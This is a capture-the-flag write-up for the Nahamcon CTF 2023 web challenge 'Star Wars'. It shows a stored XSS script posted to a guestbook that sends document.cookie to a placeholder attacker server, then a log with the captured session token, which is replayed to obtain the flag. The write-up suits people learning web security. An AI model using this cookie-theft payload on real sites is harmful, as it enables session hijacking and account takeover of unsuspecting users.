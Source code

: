 ```yaml
---
name: Star Wars (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Star Wars (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Star Wars

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=18 "Nahamcon CTF 2023: Star Wars (Web)")

## Description

> If you love Star Wars as much as I do you need to check out this blog!

## Solution

Can't create an account or sign up as admin.

Register as `cat` and find a guestbook, provide XSS payload to steal cookie.

```html
<script>
    new Image().src =
        "http://ATTACKER_SERVER.ngrok-free.app?c=" + document.cookie;
</script>
```

Request is made to our server containing cookies, including a [JWT](https://youtu.be/GIq3naOLrTg)

```bash
127.0.0.1 - - [15/Jun/2023 23:09:24] "GET /?c=ss_cvr=3ad69c49-d9aa-4fb0-b6f1-5c38324adf3b|1686862282337|1686862282337|1686862282337|1;%20x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE HTTP/1.1" 200 -
```

We replace the session cookie with `eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE` and receive a flag!

Flag: `flag{a538c88890d45a382e44dfd00296a99b}`
